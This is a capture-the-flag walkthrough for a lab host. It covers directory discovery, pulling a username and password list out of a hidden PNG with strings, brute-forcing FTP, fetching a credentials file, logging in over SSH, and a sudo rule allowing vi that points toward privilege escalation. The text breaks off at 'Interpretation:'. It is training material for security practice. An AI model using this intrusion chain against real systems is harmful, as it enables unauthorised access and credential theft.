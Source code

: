 ```text
/htaccess (403)
/assets (301 -> /assets/)
index.html (200)
/server-status (403)
```

Inspecting site assets and a discovered hidden directory revealed `Hot_Babe.png` inside `/WExYY2Cv-qU/`. Downloading and running `strings` on that PNG produced a username (`ftpuser`) and a large list of candidate passwords.

---

# Initial access

1. Downloaded the image asset and extracted strings:

```bash
wget http://10.10.198.165/WExYY2Cv-qU/Hot_Babe.png
strings Hot_Babe.png | grep -i ftpuser -A60
```

2. Brute-forced/accessed FTP with `ftpuser` and the candidate-password list (or manually checked the likely password). Logged into FTP and retrieved `Eli's_Creds.txt`:

```bash
ftp 10.10.198.165
# login as ftpuser with the discovered password
get "Eli's_Creds.txt"
```

3. SSH as `eli` using the credentials from `Eli's_Creds.txt`:

```bash
ssh eli@10.10.198.165
```

Inside `eli`’s account, enumeration found evidence and other accounts, including `gwendoline`. The `user.txt` for `gwendoline` was found in her home directory (user flag).

---

# Privilege escalation

As `gwendoline` I ran:

```bash
sudo -l
```

Which reported:

```
(ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

Interpretation:
